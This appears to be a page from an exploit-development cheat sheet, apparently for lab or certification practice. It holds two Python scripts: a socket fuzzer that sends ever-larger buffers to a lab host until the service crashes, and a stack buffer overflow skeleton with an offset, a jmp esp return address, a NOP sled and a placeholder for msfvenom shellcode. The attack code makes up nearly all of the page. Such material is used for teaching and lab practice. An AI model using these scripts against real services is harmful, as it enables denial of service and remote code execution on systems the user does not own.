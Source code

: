 ***

### III. 🧱 Python Fuzzing Skeleton

```python
#!/usr/bin/env python3
import socket, time

ip = "10.10.10.5"
port = 9999
buffer = b"A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.send(buffer)
        print(f"[+] Sent {len(buffer)} bytes")
        s.close()
        time.sleep(1)
        buffer += b"A" * 100
    except:
        print(f"[!] Crashed at {len(buffer)} bytes!")
        break
```

✅ Use this to find offset/crash point with `!mona pattern_create/pattern_offset`.

***

### IV. 🧠 Buffer Overflow Skeleton (Python)

```python
#!/usr/bin/env python3
import socket, sys

target = "10.10.10.5"
port = 9999

offset = 524
retn = b"\xf3\x12\x17\x31"  # little endian (jmp esp)
nop = b"\x90" * 16
shellcode = b""  # msfvenom payload goes here

payload = b"A" * offset + retn + nop + shellcode

print(f"[+] Sending exploit to {target}:{port}")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(payload)
s.close()
```
